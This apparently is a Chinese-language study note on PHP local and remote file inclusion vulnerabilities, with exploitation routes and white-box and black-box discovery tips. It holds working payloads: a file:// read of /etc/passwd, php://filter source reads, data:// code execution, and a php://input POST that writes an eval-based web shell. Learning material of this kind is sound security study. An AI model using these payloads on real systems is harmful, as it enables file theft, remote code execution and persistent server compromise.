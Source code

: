 漏洞原因：

1、使用文件包含函数

2、包含的文件可控



分类：

1、本地包含

​	利用：

​		1、有文件上传功能：上传一个文件，文件写有我们的恶意代码

​		2、无文件上传功能：

​			（1）包含日志文件利用

​			（2）包含Session文件利用

​			（3）伪协议

2、远程包含

allow_url_include

![image-20250823161938680](assets/image-20250823161938680.png)





![image-20250823200736277](assets/image-20250823200736277.png)



- 文件读取: 

  ```
  file:///etc/passwd 
  php://filter/read=convert.base64-encode/resource=phpinfo.php
  ```

- 文件写入: 

  ```
  php://filter/write=convert.base64-encode/resource=phpinfo.php 
  php://input 然后POST里面写:<?php fputs(fopen('shell.php', 'w'), '<?php @eval($_GET[cmd]);?>');?>
  ```

  ![image-20250823201752628](assets/image-20250823201752628.png)

- 代码执行: 

  ```
  php://input POST:<?php phpinfo();?>
  data://text/plain,<?php phpinfo();?>
  data://text/plain;base64,PD9waHAHAgcGhwaW5mbygpOz8%2b
  ```



白盒审计：（CTFSHOW）

- 白盒发现： 

  1、可通过应用功能追踪代码定位审计 

  2、可通过脚本特定函数搜索定位审计 

  3、可通过伪协议玩法绕过相关修复等

PHP: include、require、include_once、require_once等 

include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行 

require函数出现错误的时候，会直接报错并退出程序的执行

Java: java.io.File、java.io.FileReader等

ASP.NET: System.IO.FileStream、System.IO.StreamReader等

黑盒分析：

- 黑盒发现：主要观察参数传递的数据和文件名是否对应 URL中有path、dir、file、pag、page、archive、p、eng、语言文件等相关字眼